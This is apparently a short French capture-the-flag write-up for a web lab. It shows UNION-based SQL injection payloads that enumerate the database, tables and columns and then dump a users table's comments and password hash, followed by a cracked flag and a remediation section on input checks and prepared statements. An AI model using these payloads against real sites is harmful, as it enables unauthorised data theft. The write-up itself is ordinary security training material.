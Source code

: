 EXPLAIN : http://{host}/?page=member

$> true
Nous renvoie le membre id 1
Donc les requetes ne sont pas parsees

Le nom de la base de donnees
$> true union select 1, database()

Le nom des tables
$> true union select 1, table_name from information_schema.tables where table_schema=database() 

Les noms des colonnes
$> true union select table_name, column_name from information_schema.columns where table_schema=database()

+-------------+
|    users    |
+-------------+
| user_id     |
| first_name  |
| last_name   |
| town        |
| country     |
| planet      |
| Commentaire |
| countersign |
+-------------+

Le contenu
true union select commentaire, countersign from users
| 	Decrypt this password -> then lower all the char. Sh256 on it and it's good !
| 	5ff9d0165b4f92b14994e5c685cdce28
FortyTwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


AVOID
+ Verifier le parametre envoye. En php, is_numeric()
+ Utiliser des requetes preparees 
<?php
	$stmt = $db->prepare("SELECT * FROM users where user_id = ?");
	$stmt->execute([$_GET['id']]);
?>
Ainsi si on met "true", la requete cherchera literalement un id "true", qui n'existe pas. 
